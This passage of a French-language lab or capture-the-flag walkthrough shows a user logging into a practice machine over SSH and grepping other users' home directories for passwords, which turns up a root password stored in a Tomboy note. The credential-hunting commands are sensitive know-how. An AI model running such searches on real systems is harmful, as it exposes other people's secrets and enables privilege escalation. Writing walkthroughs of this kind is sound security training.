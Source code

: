 Il s'agit du même mot de passe trouvé précédemment, il faudra s'en contenter pour l'instant.

```console
root@blinils:~# ssh amy@192.168.56.101
amy@192.168.56.101's password: 
Last login: Wed Apr 29 10:59:38 2009 from 192.168.229.1

[amy@localhost ~]$ id
uid=504(amy) gid=504(amy) groups=504(amy) context=unconfined_u:system_r:unconfined_t:s0

[amy@localhost ~]$ cat .bash_history
su patrick
su jennifer
su andy
su loren
exit

[amy@localhost ~]$ sudo -l
Password:
Sorry, user amy may not run sudo on localhost.

[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/amy -e 'password' 2>/dev/null
[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/jennifer -e 'password' 2>/dev/null
[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/loren -e 'password' 2>/dev/null
[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/patrick -e 'password' 2>/dev/null
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:3:  <title>Root password</title>
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:4:  <text xml:space="preserve"><note-content version="0.1">Root password
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:6:Root password
/home/patrick/.tomboy.log:68:12/5/2012 7:24:46 AM [DEBUG]: Renaming note from New Note 3 to Root password
/home/patrick/.tomboy.log:69:12/5/2012 7:24:56 AM [DEBUG]: Saving 'Root password'...
/home/patrick/.tomboy.log:70:12/5/2012 7:25:03 AM [DEBUG]: Saving 'Root password'...
```

Wouhou! Patrick semble avoir sauvegardé le mot de passe root dans Tomboy, un logiciel libre de prise de notes.

```console
[amy@localhost ~]$ cat /home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note

<?xml version="1.0" encoding="utf-8"?>
<note version="0.2" xmlns:link="http://beatniksoftware.com/tomboy/link" xmlns:size="http://beatniksoftware.com/tomboy/size" xmlns="http://beatniksoftware.com/tomboy">
  <title>Root password</title>
  <text xml:space="preserve"><note-content version="0.1">Root password

Root password

50$cent</note-content></text>
  <last-change-date>2012-12-05T07:24:52.7364970-05:00</last-change-date>
  <create-date>2012-12-05T07:24:34.3731780-05:00</create-date>
  <cursor-position>15</cursor-position>
  <width>450</width>
  <height>360</height>
  <x>0</x>
  <y>0</y>
```